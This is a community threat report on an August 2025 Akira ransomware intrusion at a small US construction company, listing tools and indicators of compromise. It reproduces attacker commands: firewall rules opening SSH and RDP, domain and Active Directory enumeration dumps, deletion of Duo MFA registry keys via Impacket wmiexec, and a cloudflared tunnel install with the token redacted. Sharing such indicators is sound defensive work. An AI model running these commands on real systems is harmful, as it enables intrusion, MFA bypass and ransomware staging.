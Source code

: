 # Community Report 009 - Akira August 2025 

### Contributor Details
```
- Real Name: Ben Folland
- Online Handle: @polygonben
- Employer: Huntress
```
---
### Adversary
```
- Named adversary: Akira
```
---
### Incident Details
```
- Time of Incident: August 2025
- Victim Sector: Construction
- Victim Country: USA
- Victom Size: 1-100
```
---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
|   |   |   |   | Impacket  | Cloudflared  | net   |   |
|   |   |   |   |   | OpenSSH  | netsh  |   |
|   |   |   |   |   |   | nltest  |   |
---
### Indicators of Compromise (IOCs)
```
Powershell History:

New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
cmd
nltest /dclist:
nltest /trusted_domains
net group /domain "Domain Admins"
clsssss
cls
Install-WindowsFeature RSAT-AD-PowerShell
Get-ADUser -Filter * -Properties * | Select-Object distinguishedName, Enabled, CanonicalName, CN, Name, SamAccountName, MemberOf, Company, Title, Description, Created, Modified, PasswordLastSet, LastLogonDate, logonCount, Department, telephoneNumber, MobilePhone, OfficePhone, EmailAddress, mail, HomeDirectory, homeMDB > C:\programdata\adu.txt
Get-ADComputer -Filter * -Property * | Select-Object Enabled, DNSHostName, IPv4Address, OperatingSystem, Description  > C:\programdata\adc_light2.txt:

Command Line / Process Tree:

- WmiPrvSE.exe // Impacket wmiexec lateral movement to run:
  -  Remove-Item -Path "HKLM:\Software\Duo Security" -Recurse -Force
  -  netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
  -  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

- 	C:\ProgramData\ssh\cloudflared.exe service install eyJ[...REDACTED...]SJ9 // Known Akira Cloudflared token

Staging:
- C:\ProgramData\

Ransomware Binary:
- N/A
```
---
#### Any Related Sources
| Date Published | Report |
|---|---|
| 04/08/2025 | https://www.huntress.com/blog/exploitation-of-sonicwall-vpn |
